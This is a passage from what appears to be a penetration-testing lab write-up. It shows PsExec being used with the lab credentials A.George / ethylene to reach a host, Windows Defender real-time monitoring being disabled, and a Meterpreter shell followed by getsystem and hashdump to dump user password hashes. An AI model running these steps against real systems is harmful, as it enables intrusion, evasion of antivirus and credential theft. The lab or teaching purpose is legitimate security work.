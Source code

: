 ### 4.3 Using PsExec to stop the Anti-Virus

To get around the the previous issue, one great way to get around the anti-virus deleting the payload is to use **PsExec** from a windows machine

from a windows machine run this command
> Open PowerShell and change directory to where the PsExec tool is 
>> Logon and password used in this case ***A.George*** / ***ethylene***

- Run the following
```powershell
# Go to Directory
cd \to\file\location

#run PsExec with cmd and powershell
.\PsExec.exe \\192.168.10.1 -u A.George powershell

# When prompted
Password: ethylene 

# To Disable Anti-Virus
C:\Windows\system32> Set-MpPreference -DisableRealtimeMonitoring $true
```


- Back in **msfconsole** run the exploit command again

![](attachment/2f07b45067da2a9647cc885f66cb0462.png)
>Meterpreter Shell
>> "im In"

# 5. DUMPING THE USER HASHES.
-------

To be able to dump the hashes, SYSTEM rights are required, despite being logged on with an Administrator, SYSTEM Rights are different from the Admins right. thankfully meterpreter will helps out with this.to get SYSTEM rights enter the following 

```bash
getsystem

hashdump
```
> sometimes the hashdump will not work, this is because meterpreter is running on server as administrator. to bypass this run the PS command to find a process that is running as SYSTEM.
